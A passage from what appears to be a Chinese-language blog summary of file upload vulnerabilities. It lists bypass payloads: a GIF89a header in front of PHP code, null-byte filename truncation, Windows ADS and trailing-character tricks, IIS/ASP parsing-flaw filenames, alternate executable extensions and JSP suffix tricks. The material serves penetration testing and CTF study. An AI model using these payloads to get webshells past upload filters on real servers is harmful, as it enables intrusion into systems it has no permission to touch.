     video/mpeg4：mp4文件  
    video/avi：avi文件

#### 文件头绕过[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#%E6%96%87%E4%BB%B6%E5%A4%B4%E7%BB%95%E8%BF%87)

在木马文件内容开头加上一些文件头信息

|   |   |
|---|---|
|1|GIF89a<?php phpinfo(); ?>|

判断文件头内容是否符合要求，这里举几个常见的文件头对应关系：

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4|（1） `.JPEG;.JPE;.JPG`，”JPGGraphic File”  <br>（2） `.gif`，”GIF 89A”  <br>（3） `.zip`，”Zip Compressed”  <br>（4） `.doc;.xls;.xlt;.ppt;.apr`，”MS Compound Document v1 or Lotus Approach APRfile”|

#### 文件名/后缀绕过[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#%E6%96%87%E4%BB%B6%E5%90%8D-x2F-%E5%90%8E%E7%BC%80%E7%BB%95%E8%BF%87)

##### 截断[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#%E6%88%AA%E6%96%AD)

test.php%00.jpg,test.php0xoo.jpg

##### windows特性[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#windows%E7%89%B9%E6%80%A7)

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7  <br>8  <br>9|ADS流：test.php::$DATA(见下)  <br>test.php.  <br>test.php_  <br>test.php(空格)  <br>*=.  <br><=*  <br>>=?  <br>test.<<<  <br>test.php:1.jpg会生成一个test.php的空文件|

##### ASP[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#ASP)

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7  <br>8  <br>9  <br>10  <br>11  <br>12  <br>13  <br>14|解析漏洞:  <br>.asp;.jpg  <br>.asp.jpg  <br>.asp;jpg  <br>+111.asp;+222.jpg  <br>/111.asp/1.jpg  <br>/111.aspx/1.jpg  <br>后缀名：  <br>asa,cer,cdx,ashx,asmx,xml,htr,asax  <br>双文件扩展：  <br>test.asp.jpg  <br>RTLO：  <br>asp.html-内容为一句话  <br>php.txt-内容为一句话|

##### JSP[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#JSP)

|   |   |
|---|---|
|1  <br>2|.jsp.jpg.jsp-用两个jsp包围中间的jpg  <br>后缀名：jspf,jspa,jsps|
